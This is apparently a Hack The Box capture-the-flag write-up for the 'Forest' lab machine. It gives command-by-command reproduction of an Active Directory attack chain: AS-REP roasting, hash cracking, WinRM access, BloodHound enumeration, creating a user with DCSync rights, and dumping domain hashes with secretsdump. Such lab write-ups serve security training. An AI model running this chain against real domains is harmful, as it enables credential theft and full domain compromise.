 ```yaml
---
title: HTB - Forest
date: 2024-03-16
categories: [CTF, Fullpwn]
tags: [htb, hackthebox, forest, nmap, hashcat, active-directory, dcsync, asreproasting, bloodhound, sharphound, impacket, secretsdump]
img_path: /assets/htb/fullpwn/forest
published: true
image:
    path: machine_info.png
---
```


## HTB: Forest

>[Forest Box](https://app.hackthebox.com/machines/212)

![](forest_htb_diagram.png)

## Walkthrough Summary

|Step|Action|Tool|Achieved|
|-|-|-|-|
|1|[[cpts:ad:asreproasting|ASREPRoasting]]|[[https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py|GetNPUsers.py]]|Obtained the TGT ticket of //svc-alfresco//|
|2|Hash cracked|[[https://github.com/hashcat/hashcat|Hashcat]]|Obtained clear text password|
|3|Logged into the domain via WinRM|[[https://github.com/Hackplayers/evil-winrm|evil-winrm]]|Obtained initial foothold|
|4|Credentialed domain enumeration|[[https://github.com/BloodHoundAD/SharpHound|SharpHound.py]], [[https://github.com/BloodHoundAD/BloodHound|BloodHound]]|Enumerated privilege escalation path|
|5|Executed privileged escalation path|LOTL*|Created & added a domain user to the required groups|
|6|Assiged user DCSync rights|[[https://github.com/n00py/DCSync|DCSync.py]]|Obtained //administrator//'s NTLMv2 hash|
|7|[[cpts:ad:acl#dcsync_attack|DCSync attack]]|[[https://github.com/fortra/impacket/blob/master/examples/secretsdump.py|secretsdump.py]]|Compromised domain|

*_[Living Off The Land](https://encyclopedia.kaspersky.com/glossary/lotl-living-off-the-land/)_

## Detailed attack chain reproduction steps

Obtained the TGT ticket of of the **_svc-alfresco_** via a ASREPRoasting:

```bash
$ getnpusers -dc-ip 10.10.10.161 -request 'htb.local/'
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2024-03-15 17:01:22.890339  2024-03-15 16:37:07.184448  0x410200

$krb5asrep$23$svc-alfresco@HTB.LOCAL:1f1...<REDACTED>...588
```

Cracked the password hash offline:

```bash
$ hashcat -m 18200 svc-alfresco_tgt /usr/share/wordlists/rockyou.txt

<SNIP>

$krb5asrep$23$svc-alfresco@HTB.LOCAL:1f1...<REDACTED>...588:s<REDACTED>e

<SNIP>
```

The obtained credentials was subsequently confirmed to the domain using [NetExec](https://github.com/Pennyw0rth/NetExec):

```bash
$ nxc smb 10.10.10.161 -u svc-alfresco -p s<REDACTED>e
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\svc-alfresco:s<REDACTED>e
https://github.com/Pennyw0rth/NetExec
```

An initial foothold to the domain was achieved:

```bash
$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s<REDACTED>e

<SNIP>

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```

The **_user.txt_** file was compromised:

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco> type desktop\user.txt
5a4<REDACTED>f85
```

Domain information was collected and then transferred to the attack host:

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco> upload SharpHound.exe

Info: Uploading /home/kali/htb/forest/SharpHound.exe to C:\Users\svc-alfresco\SharpHound.exe

Data: 965288 bytes of 965288 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-alfresco> .\SharpHound.exe -c All

*Evil-WinRM* PS C:\Users\svc-alfresco> download 20240315124803_htblocal.zip

Info: Downloading C:\Users\svc-alfresco\20240315124803_htblocal.zip to 20240315124803_htblocal.zip

Info: Download successful!
```

Upon review, two issues stood out:
  - _svc-alfresco_ was member of the _Account Operators_ group as a result of [group nesting](https://learn.microsoft.com/en-us/windows/win32/ad/nesting-a-group-in-another-group) (Figure 1)
  - The _Windows Exchange Permissions_ group had _WriteDACL_ permissions over the _HTB.LOCAL_ domain, which means that its members can obtain **DCSync rights** (Figure 2)

![Figure 1: svc-alfresco is a part of the Account Operators group.](forest_account_operators.png)

![Figure 2: The Windows Exchange Permissions group has WriteDACL rights over HTB.LOCAL.](forest_writedacl.png)

Based on the above information, a new domain user account was created and added to the _Windows Exchange Permissions_ and the _Remote Management Users_ group (to allow WinRM remote management):

```bash
# create a new domain user
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user /domain hacker hack3r123 /add
The command completed successfully.

# add user to the groups
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group /domain "Exchange Windows Permissions" hacker /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net localgroup "Remote Management Users" /add hacker
The command completed successfully.
```

The user was then assigned the DCSync rights:

```bash
$ sudo python3 DCSync.py -dc htb.local -t ''CN=hacker,CN=Users,DC=htb,DC=local'' ''htb.local\hacker:hack3r123''
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

[*] Starting DCSync Attack against CN=hacker,CN=Users,DC=htb,DC=local
[*] Initializing LDAP connection to htb.local
[*] Using htb.local\hacker account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Querying domain security descriptor
[*] Success! User hacker now has Replication-Get-Changes-All privileges on the domain
[*] Try using DCSync with secretsdump.py and this user :)
[*] Saved restore state to aclpwn-20240316-103635.restore
```

The DCSync attack was performed and the _Administrator_'s NTLMv2 hash was obtained:

```bash
$ sudo /opt/impacket/examples/secretsdump.py htb.local/hacker:hack3r123@10.10.10.161
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad<REDACTED>4ee:326<REDACTED>ea6:::
<SNIP>
[*] Cleaning up...
```

The obtained hash was used to log in as _Administrator_ and achieve **full domain compromise** by obtaining the **_root.txt_** file:

```bash
$ evil-winrm -i 10.10.10.161 -u administrator -p aad<REDACTED>ea6

<SNIP>

*Evil-WinRM* PS C:\Users\Administrator\Documents> *Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\desktop\root.txt
58a<REDACTED>525
```